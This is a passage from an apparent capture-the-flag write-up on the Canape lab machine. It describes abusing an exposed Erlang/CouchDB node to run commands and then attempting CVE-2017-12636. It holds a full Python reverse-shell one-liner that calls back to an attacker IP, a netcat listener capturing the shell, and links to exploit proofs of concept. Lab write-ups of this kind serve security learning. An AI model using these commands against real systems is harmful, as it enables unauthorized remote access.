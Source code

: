     
    
    (0xdf@canape)3> rpc:call('couchdb@localhost', os, cmd, [whoami]).
    rpc:call('couchdb@localhost', os, cmd, [whoami]).
    "homer\n"
    
    (0xdf@canape)3> nodes().
    nodes().
    [couchdb@localhost]
    

Now, we want to get a full shell. To run a command that’s anything more than a
single word, we’ll put it in `""`s. To get a shell, we’ll use a python reverse
shell, and be careful to escape correctly:

    
    
    (0xdf@canape)4> rpc:call('couchdb@localhost', os, cmd, ["python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.9\", 9005));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"]).
    
    
    
    root@kali# nc -lnvp 9005
    listening on [any] 9005 ...
    connect to [10.10.14.9] from (UNKNOWN) [10.10.10.70] 60162
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1000(homer) gid=1000(homer) groups=1000(homer)
    

Now that we have a shell as homer, we could grab the user flag, and continue
towards privesc. However, without homer’s password, we won’t be able to sudo
as required in the path above.

#### Unsuccessful Attempt Via CVE-2017-12636

CVE-2017-12636 allows for code execution through the couchdb process. However,
it won’t work in this configuration.

There are a few POCs out there as reference:

  * https://raw.githubusercontent.com/vulhub/vulhub/master/couchdb/CVE-2017-12636/exp.py
  * https://www.exploit-db.com/exploits/44913/

We’d need to write a new query_server, and then invoke that. When Canape was
released, most of the POCs were for couchdb 1.x, but this box is running 2, so
the query_servers path from most of the POCs doesn’t exist. That’s changed
now, but we’ll walk the same steps. First, get the version, and show that the
1.X path doesn’t exist:

    
    
    www-data@canape:/var/www/git$ curl http://localhost:5984
    {"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
    
    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/_config/query_servers/
    {"error":"not_found","reason":"Database does not exist."}
    

Update with the new path for 2.0:
